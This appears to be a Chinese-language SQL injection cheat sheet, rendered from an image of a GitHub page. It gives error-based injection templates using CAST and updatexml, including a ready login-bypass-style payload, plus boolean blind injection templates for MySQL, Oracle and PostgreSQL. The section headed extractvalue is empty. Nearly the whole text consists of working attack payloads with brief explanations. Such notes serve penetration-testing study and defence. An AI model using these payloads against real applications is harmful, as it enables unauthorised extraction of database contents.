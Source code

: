 ### 报错注入

#### 可见报错

> **Notes**
>
> - 当 SQL 语句执行错误，页面出现报错详细内容时，可以通过报错信息来获取数据库信息

##### 语法结构

`<原语句> AND CAST((<查询语句>) AS int)=1`

> **Notes**
>
> - CAST 函数：将查询结果转换为 int 类型
> - 当 CAST 的返回值是文本时，会报错并抛出内容

```sql
AND CAST((SELECT xxx FROM xxx) AS int)=1--
```

##### updatexml

`updatexml(xml_doument,XPath_string,new_value)`
> **Notes**
>
> - 第一个参数：XML 的内容  
> - 第二个参数：是需要 update 的位置 XPATH 路径  
> - 第三个参数：是更新后的内容
>
> - 所以第一和第三个参数可以随便写，只需要利用第二个参数，他会校验你输入的内容是否符合 XPATH 格式
> - 加上“~”就可以让 XPATH 校验失败
> - 如：admin' or updatexml(1,concat(0x7e,database()),0)#

##### extractvalue

### 布尔盲注

#### 条件响应盲注

- 当 SQL 语句执行正确时，页面出现某些内容，而错误时不显示该内容，可以进行布尔盲注

```sql
<原语句> AND <条件>
```

##### 条件错误盲注

- 当 SQL 语句执行错误时，页面出现报错（没有详细内容），可以进行布尔盲注

```sql
-- MySQL
<原语句> AND (SELECT CASE WHEN (<条件>) THEN 1/0 ELSE '' END)
-- Oracle
<原语句> AND (SELECT CASE WHEN (<条件>) THEN TO_CHAR(1/0) ELSE '' END FROM dual)
-- PostgreSQL
<原语句> AND (SELECT CASE WHEN (<条件>) THEN cast(1/0 as text) ELSE '' END)
```

